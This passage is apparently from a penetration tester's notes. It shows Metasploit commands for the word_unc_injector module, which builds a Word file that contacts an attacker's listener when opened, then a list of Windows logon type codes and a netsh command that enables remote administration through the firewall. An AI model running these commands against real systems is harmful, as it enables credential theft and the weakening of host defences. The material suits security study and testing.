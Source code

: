 If emailed the receiver needs to put the document in editing mode before the remote server will be contacted. Preview and read-only mode do not work.

{% highlight PowerShell %}
use auxiliary/docx/word_unc_injector
set lhost 10.50.1.99
exploit
{% endhighlight %}

## Query Logged On Users

**Logon Type Codes**

`0`  = SYSTEM 

Account logon, typically used by the computer itself.

`2` = Interactive

A logon at the computer console directly. If you look in the event log you can tell if it is a local computer or a domain account from the events description (there will be a computer name or adomain name)

`3` = Network

When you access the computer from another place on the network, normally using remote protocols such as WMI and SMB

`4` = Batch

Logon sessions created by Windows when it executes a scheduled task. 

`5` = Service Logon

When windows creates a session 

`7` = Unlock

When a user logins by unlocking a password protected lock screen

`8` = Networkcleartext

When the password to logon is sent over the network in plain text. ASP Scripts and IIS basic authentication mode. 

`9` = New Credentials-based logon

If you use the `RunAs` comand to start a program under a different user account using the /netonly switch. 

N.B Without the `/netonly` windows will log a logon type of `2` on the local machine. 

`10`  = Remote Interactive

Remote Desktop logon or Remote Assistance connection. 

On some machines you may need to enable remoting

{% highlight PowerShell %}
netsh firewall set service remoteadmin enable
{% endhighlight %}
